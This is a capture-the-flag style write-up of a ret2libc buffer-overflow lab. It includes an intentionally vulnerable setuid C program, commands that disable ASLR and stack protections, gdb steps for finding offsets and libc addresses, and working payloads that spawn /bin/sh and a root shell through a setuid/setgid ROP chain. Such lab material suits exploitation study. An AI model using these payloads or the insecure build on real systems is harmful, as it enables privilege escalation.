

ret2libc
===
🔙 [MENU README](../PWN.md#challenge)

# Environment
Source
```C
// ~/Downloads/libc/retlib.c

#include<stdlib.h>
#include<stdio.h>
#include<string.h>

int bof(FILE *badfile){
    char buffer[12];

    fread(buffer, sizeof(char), 140, badfile);
    return 1;
}

int main(int argc,char **argv){
    FILE *badfile;

    badfile = fopen("badfile", "r");
    bof(badfile);

    printf("Returned Properly\n");
    fclose(badfile);
    return 1; 
}
```
Compile
```bash
# Disable ASLE
sudo sysctl -w kernel.randomize_va_space=0

sudo gcc retlib.c -o retlib -no-pie -fno-pic -z noexecstack -fno-stack-protector -m32

sudo chmod 4755 retlib
```

# Hint
```
想辦法在程式中執行
system("/bin/sh");
```


# Payload (no root)
Test
```bash
gdb-peda pattern create 250 badfile
gdb-peda pattern search
# EIP+0 found at offset: 24

python -c 'print "A"*24 + "BBBB" + "C"*64' > badfile
```
system("/bin/sh")
```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e42db0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369e0 <__GI_exit>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f63b2b ("/bin/sh")
```
Payload
```bash
python -c 'print "A"*24 + "\xb0\x2d\xe4\xb7" + "\xe0\x69\xe3\xb7" + "\x2b\x3b\xf6\xb7" + "C"*64' > badfile
```


# Paylaod (root)
```bash
gdb-peda$ p setuid
$1 = {<text variable, no debug info>} 0xb7eb93c0 <__setuid>
gdb-peda$ p setgid
$2 = {<text variable, no debug info>} 0xb7eb9440 <__setgid>
gdb-peda$ ropgadget
ret = 0x8048329
popret = 0x8048345 <===
pop4ret = 0x8048598
pop2ret = 0x804859a
pop3ret = 0x8048599
addesp_12 = 0x8048342
addesp_16 = 0x8048425
```
Payload
```bash
python -c 'print "A"*24 + "\xc0\x93\xeb\xb7" + "\x45\x83\x04\x08" + "\x00\x00\x00\x00" + "\x40\x94\xeb\xb7" + "\x45\x83\x04\x08" + "\x00\x00\x00\x00" + "\xb0\x2d\xe4\xb7" + "\xe0\x69\xe3\xb7" + "\x2b\x3b\xf6\xb7" + "C"*16' > badfile
```
.png)